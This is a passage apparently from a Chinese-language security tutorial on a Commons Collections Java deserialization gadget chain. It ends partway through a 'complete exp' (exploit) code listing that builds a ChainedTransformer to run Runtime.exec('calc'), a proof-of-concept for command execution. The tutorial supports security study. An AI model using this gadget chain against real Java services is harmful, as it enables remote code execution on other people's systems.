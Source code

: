 [![](assets/1700127979-70c0118efc7d34d06f6f5691dcc39183.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155244-20255d0c-8455-1.png)

到这里，我们的入口的地放就解决了，接下来我们嫁接 cc1 中的 LazyMap.get 这个思路从而写出完整的调用链。

### 完整 exp

```plain
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        Transformer[] transformer = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);

```
